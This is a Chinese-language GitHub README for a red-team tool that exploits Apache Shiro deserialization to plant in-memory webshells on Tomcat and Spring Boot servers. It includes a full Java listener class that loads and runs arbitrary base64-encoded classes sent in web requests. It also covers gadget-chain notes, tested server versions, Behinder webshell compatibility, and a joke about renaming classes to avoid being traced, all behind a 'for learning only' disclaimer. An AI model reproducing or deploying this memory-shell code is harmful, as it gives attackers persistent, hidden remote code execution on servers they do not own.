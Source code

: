 # Dr4gonSword

**仅供交流学习漏洞原理,请勿用于非法用途**

- [Shiro](#shiro)
  + [使用方法](#----)
  + [利用链](#---)
  + [内存马和回显方法](#--------)
  + [本地测试过的中间件版本](#-----------)

- [更新记录](#----)
  * [0.0.3](#003)
  * [0.0.2](#002)
- [未来准备更新(可能)](#----------)
- [感谢](#--)

**仅供交流学习漏洞原理,请勿用于非法用途**

版本0.0.3

在红队中发现现有shiro利用工具有些时候会注入内存马失败,于是自己写下了这个小工具,也是为了更好地了解漏洞原理与利用方式

因为刚入门JAVA,所以肯定还有很多不足,代码也写得比较丑陋

目前只有Shiro,后续随着学习会应该加入更多漏洞(大概)

## Shiro

### 使用方法

点击Inject进行注入,然后才能连接冰蝎或者执行命令

连接冰蝎的时候加get参数stage=s

![2](./images/2.png)

![1](./images/1.png)

### 利用链

Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer

总结:几乎一样

### 内存马和回显方法

使用listener注入,相比于使用servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况,例如P师傅的shirodemo环境(2021强网杯hard pentest,如下图)

![](./images/5.png)



并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)

另外我这边同一个listener同时实现命令执行回显和内存马,命令执行回显可以GBK编码

核心逻辑为实现一个Listener同时继承AbstractTranslet类并且实现ServletRequestListener接口来加载任意类并调用方法

```JAVA
public class Init extends AbstractTranslet implements ServletRequestListener  {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    public Init() throws Exception {
        super();
        super.namesArray = new String[]{"ccdr4gon"};
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardCtx.addApplicationEventListener(this);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            RequestFacade requestfacade= (RequestFacade) sre.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(requestfacade);
            if (request.getParameter("stage").equals("init")) {
                StringBuilder sb = new StringBuilder("");
                BufferedReader br = request.getReader();
                String str;
                while ((str = br.readLine()) != null) {
                    sb.append(str);
                }
                byte[] payload = Base64.getDecoder().decode(sb.toString());
                Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), payload, 0, payload.length);
                clazz.newInstance();
            }
        }catch (Exception ignored){ }
    }
}
```

### 本地测试过的中间件版本

Tomcat 7.0.109 √

Tomcat 8.5.51 √

Tomcat 9.0.46 √

Springboot 2.3.5 √  <tomcat.version>9.0.39</tomcat.version> 

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version>

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0 (gcm)

Tomcat 8.5.51 √ with commons-collections4 dependency

![3](./images/3.png)

![4](./images/4.png)

![6](./images/6.png)

# 更新记录

## 0.0.3

- Behinder内存马兼容性修复并且添加自定义密码(会生成一个随机密码)
- CommonsCollections4依赖的利用链(只是把.decorate改成了.lazyMap)
- 重构了controller生成payload部分的代码结构,使用factory

## 0.0.2 

- 添加Tomcat7利用链(tomcat7巨烦)
- okhttp的https证书全信任，删除了get请求的一些header（为了不触发header too large）
- 添加了GCM加密方式
- 其他记不到了的小修改

# 未来更新(可能)

- 依赖有点问题,目前我是直接把tomcat的lib全加到projectstructure里了
- 把类名改了,用下去的话总感觉会有一天接到溯源的电话
- shiro
  - ~~自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)~~ 0.0.3已更新
  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2已更新
  - ~~commons-collections4利用链~~  0.0.3已更新
  - commonsbeanutils利用链
- fastjson
- weblogic等等更多以后准备学习的JAVA漏洞
- 由于java流只能读取一次,okhttp库的IO目前处于能用就行的丑陋状态,之后看看怎么改改
- 看了比较新版的behinder之后这边考虑要不要把pagecontext删了(删了以后可能连不上旧版的behinder了)
- 一键清除所有listener
- 更多webshell管理器,哥斯拉等等

# 感谢

phithon

kingkk

j1anFen

Litch1

threedr3am

李三

LandGrey

Lucifaer

等公开发表过Tomcat内存马/回显以及Shiro利用方式文章的师傅

